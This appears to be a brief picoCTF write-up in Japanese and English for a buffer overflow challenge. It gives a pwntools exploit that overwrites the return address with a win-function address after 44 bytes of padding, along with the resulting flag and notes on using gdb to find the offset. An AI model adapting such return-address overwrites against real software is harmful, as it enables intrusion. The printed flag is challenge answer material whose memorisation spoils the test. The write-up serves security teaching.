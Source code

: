 # buffer_overflow_1:bynary Medium  
Control the return address  

Additional details will be available after launching your challenge instance.  
Download the source [here](buffer_overflow_1.c)   

# Solution    
バイナリ、ソースコードが渡される。    
from pwn import *  
>>> p = remote("saturn.picoctf.net",55758)  
[x] Opening connection to saturn.picoctf.net on port 55758  
[x] Opening connection to saturn.picoctf.net on port 55758: Trying 13.59.203.175  
[+] Opening connection to saturn.picoctf.net on port 55758: Done  
>>> payload = b"a"*44  
>>> payload += p32(0x080491f6)  
>>> p.sendline(payload)  
>>> p.interactive()  
[*] Switching to interactive mode  
Please enter your string:   
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6  
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}[*] Got EOF while reading in interactive  

# 考えたこと  
 gets(buf);からバッファオーバーフローが狙えると考えられる  
 次に、gdbでリターンアドレスまでのアドレスの大きさを調べる  
 結果、44バイトであることがわかった。  
 なので、４４バイト分適当な文字を入力しWIN関数の開始アドレス入力したらFLAGを獲得できると考えた  
 実際に実行するとFLAGを獲得できた  